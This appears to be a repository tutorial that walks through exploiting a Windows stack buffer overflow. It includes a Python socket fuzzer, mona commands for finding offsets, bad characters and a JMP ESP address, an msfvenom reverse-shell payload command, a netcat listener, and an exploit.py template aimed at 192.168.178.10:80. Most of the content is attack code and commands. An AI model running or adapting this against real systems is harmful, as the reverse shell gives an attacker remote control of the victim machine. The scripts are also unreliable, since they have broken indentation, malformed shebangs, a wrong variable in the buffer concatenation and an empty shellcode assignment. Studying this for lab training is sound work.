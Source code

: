 ##### BufferOverflow

To exploit this application via buffer overflow, firstly the application must be crashed. This is done by using the fuzzer below. 
This fuzzer will send an array of incrasing values, where the value is "A", until the applcicaiton crashs and will leave you with the correct number of bytes needed
to crash the application.

fuzzy.py

```
#!/usr/bin/python

import socket, time, sys

IP = "<IP>"
PORT = <PORT>
timeout = 5

buffer = []
counter = 100
while len(buffer) < 30:
    buffer.append("A" * counter)
    counter += 100

for string in buffer:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(timeout)
        connect = s.connect((IP, PORT))
        s.recv(1024)
        print("Fuzzing with %s bytes" % len(string))
        s.send(string)
        s.recv(1024)
        s.close()
    except:
        print("Could not connect to " + IP + ":" + str(PORT))
        sys.exit(0)
    time.sleep(1)
    ```
    
    Once the application has been crashed. It is time to overwrite and take controll of the EIP poiter. To do this I will create a unique pattern using
    msf-pattern-create, using the gratest size of bytes used to crash the application via the fuzzer.

Create a working directory for !mona
```    
!mona config -set workingfolder c:\mona\%p
```

Create a pattern to overwrite

```msf-pattern_create -l <i.e 2560 or 0xA00>```

Find the offset

```msf-pattern_offset -l <i.e 2560 or 0xA00> -q <i.e 33794332>```

Once the offset has been found. In this case 2288, over the original 2560.

Creating the inputBuffer

filler = 'A' * 0x8f0 #2288   This is the space to write to get to EIP
eip = 'B' * 0x4      #4      This is the space we need to take over EIP
buffer = 'C' * 0x616 #268    This is for Shellcode ;~)

This should equal 2560 as the original size of the pattern created. 

To test this

exploit.py 
```
#!usr/bin/python

import socket
import time
import sys


try:
	print "Checking...."

	filler = 'A' * 0x8f0 #2288  
  eip = 'B' * 0x4     
  buffer = 'C' * 0x616 #268  

	inputBuffer = filler + eip + buffer

	content = inputBuffer 

	buffer+= content

	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

	s.connect(("192.168.178.10", 80))
	s.send(buffer)

	s.close()

	print 'Done! =]'

except:
	print "No Connection --------"
	sys.exit()
  ```
Run check.py, EIP should be equal to 42424242 (hex value of “BBBB”). I now control EIP!

Now that EIP has been controlled, it is crucical to gather a list of bad charecters, when the shellcode is generated any invalid charecters could
stop the payload from being read through the application. 

Finding bad charecters with !mona. .\x00 is always concidered a bad charecter as it will trucate shellcode when executed.

Creating a list of badchars
```
!mona bytearray -b "\x00"
``` This will exlcude the bad charecters
```
!mona compare -f C:\mona\<PATH>\bytearray.bin -a <ESP_ADDRESS>
``` 
This will compare the remaining list against the application. 

Repeat those two steps until the results status returns Unmodified, this indicates that no more bad characters exist.

Finding JMP ESP

Now that control of EIP has been taken, and all bad charecters have been elmininated, next thing needed is and adress to jump to ESP.
This can found using !mona.

To load mona modules:
```
!mona modules
```

Finding a .dll were Rebase, SafeSEH, ASLR, NXCompat are sets to False. When you found it, run the command below to search for a 
JMP ESP (FFE4), inside the dll :
```
!mona find -s "\xff\xe4" -m <DLL>
```
Return address
Choose an address in the results and update exploit.py :
Setting the retn variable to the address, written backwards (little-endian)

```
# Example of a JMP ESP address

0x625011af

# exploit.py
retn
eip = "\xaf\x11\x50\x62"
```

Generate the shellcode 
```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -b "<BAD_CHARS>" -f c
```

Prepend NOPs

A NOP-sled is a technique for exploiting stack buffer overflows. It solves the problem of finding the exact address of the buffer by effectively increasing the 
size of the target area, \x90 represents a NOP in assembly. This instruction will literally do nothing and continue on with code execution.
```
padding = "\x90" * 16
```

Start a nc listener on port 1234

```
sudo nc -lnvp 1234
```

Final Exploit

exploit.py 
```
#!usr/bin/python

import socket
import time
import sys


try:
	print "Checking...."

	filler = 'A' * FillerNum 
  eip = ''  EIP ADDRESS 
  buffer = 'C' * 0x616 #268  
  padding = "\x90" * 16
  
  ## Generate Shellcode Command: msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -b "<BAD_CHARS>" -f c
  ## Bad Charecters: 
  
  shellcode = 
  
	inputBuffer = filler + eip + padding + shellcode + buffer

	content = inputBuffer 

	buffer += content

	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

	s.connect(("192.168.178.10", 80))
	s.send(buffer)

	s.close()

	print 'Done! =]'

except:
	print "No Connection --------"
	sys.exit()
  ```




